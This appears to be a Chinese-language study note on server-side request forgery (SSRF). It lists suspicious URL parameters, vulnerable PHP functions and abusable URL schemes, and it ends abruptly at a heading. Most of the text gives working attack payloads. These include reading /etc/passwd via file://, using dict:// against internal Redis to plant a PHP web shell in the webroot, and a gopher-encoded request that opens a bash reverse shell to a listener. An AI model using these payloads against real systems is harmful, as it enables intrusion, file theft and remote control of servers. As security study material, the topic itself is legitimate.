

可以从 URL 关键字中寻找漏洞
share 通常表示分享功能
wap 表示这是针对移动设备优化的版本
url 通常用于重定向
link 获取某个东西
src 就是 src
source 指定数据来源
target 用于指定表单提交后用于处理的文件
u url 的简写
display 控制图片显示方式
sourceURL 待下载文件的地址
imageURL 指定页面显示的图片的地址
domain 后跟域名
产生漏洞的函数 PHP
file_get_contents()
-- 支持 php://input 协议
sockopen()/fsockopen()
-- 这个函数用于获取指定的 url 的数据，文件或者 html。使用 socket 建立 tcp 链接。
curl_exec()
-- 通过 PHP 获取文件 / 数据，下载到 curled 文件夹，附加随机数和 txt 扩展名
-- 默认不跟踪跳转，用于执行指定的 url 对话
伪协议
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info：
sftp:// SSH 文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议，或者 ldaps://,Idapi://
tftp:// 简单文件传输协议
gopher:// 分布式文档传递服务，可使用 gopherus 生成 payload
fopen()
readfile()
利用的协议：
要求目标服务器可以接收用户指定的 URL 并发起请求
（1）file：在有回显的情况下，利用 file 协议可以读取服务器本地的任意内容
例如：
将file:///etc/passwd作为参数提交给该接口，服务器就会尝试读取 /etc/passwd 文件的内容，并将结果返回给攻击者（如果存在回显）
（2）dict：泄露安装软件版本信息，查看端口，操作内网redis服务等
语法是：
dict://<server>:<port>/<database identifier>/<search query>
一些服务响应dict请求会返回自身信息，所以泄露。也可以用于探测端口是否开放 (只构造到dict://<target_ip>:<port>/)。通常只是为已知漏洞做准备。
但是似乎不能代替file读取普通文件
（3）gopher：gopher支持发出GET、POST请求,可用于反弹shell
语法是：
gopher://<host>:<port>/<selector，也就是执行的操作，格式有很多种>
（4）http/s：探测内网主机存活，也可以用于探测端口是否开放
例如：
构造 http://192.168.1.100:80 这样的 URL 提交给 SSRF 接口，观察服务器的响应来判断 192.168.1.100 的 80 端口是否开放以及是否有 Web 服务在运行。
更进一步的：
一:dict
Redis 是一个常用的内存数据库，dict 可以模拟 Redisd 协议格式，通过向内网中的 Redis 服务器发送请求，如果该服务器没有访问控制等，可以执行一些 Redis 命令
一个流程
1. 构造 dict://<内网 Redis IP>:6379/INFO
返回版本等信息
2. 构造 dict://192.168.1.100:6379/CONFIG%20SET%20dir%20/var/www/html
修改数据存储目录
3. 构造 dict://192.168.1.100:6379/SET%20shell.php%20%22%3C?php%20system(%24_GET%5B%27cmd%27%5D);?%3E%22
使用 SET 写入 <?php system ($_GET ['cmd']);?>
4. 构造 dict://192.168.1.100:6379/SAVE , 持久化数据
5. 访问 http://目标网站域名/shell.php?cmd=ls ，
使用刚刚的脚本
这个流程也适用于 gopher 协议请求
但是使用 Redis 命令要前加一个_，最后要以 %0D%0A 结尾
例如保存那个要改为：gopher://<Redis 服务器 IP>:6379/_SAVE%0D%0A
二:gopher
gopher 协议反弹 shell：
这是利用已经存在的命令执行漏洞，可以是 web 或者 PHP 上的。
作用是将命令执行的结果返回到你监听的端口处。
例如命令执行漏洞如果在 vulnerable.php ：
先构造一个正常的 POST 请求
POST /vulnerable.php HTTP/1.1
Host: <目标主机>
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
cmd=<?php system("bash -i >& /dev/tcp/192.168.1.100/4444 0>&1");?>
然后转化为 gopher 协议格式
将上述 HTTP 请求转换为
gopher协议的 `` 部分，需要注意以下几点：
- 每个换行符（
\n）在gopher协议中通常用%0D%0A表示（\r\n的 URL 编码）。- 空格用
%20表示。- 特殊字符需要进行 URL 编码。
#这也是在构造复杂请求，你也可以截获请求，然后篡改，或者模拟正常用户。 | |
转化后： | |
gopher://<目标主机>:80/_POST%20/vulnerable.php%20HTTP/1.1%0D%0AHost:%20<目标主机>%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%2068%0D%0A%0D%0Acmd%3D%3C%3Fphp%20system(%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.100/4444%200%3E%261%22);%3F%3E | |
//其实就是进行两次url编码，但是第一次后要手动将%0A改成%0D%0A |
然后监听下 4444 端口：
nc -lvp 4444 //这什么玩意儿？？？ |
这样反向连接成功后，就可以在目标主机上执行命名（起码比一直构造好 php 好了很多）
gopher 协议攻击内网服务：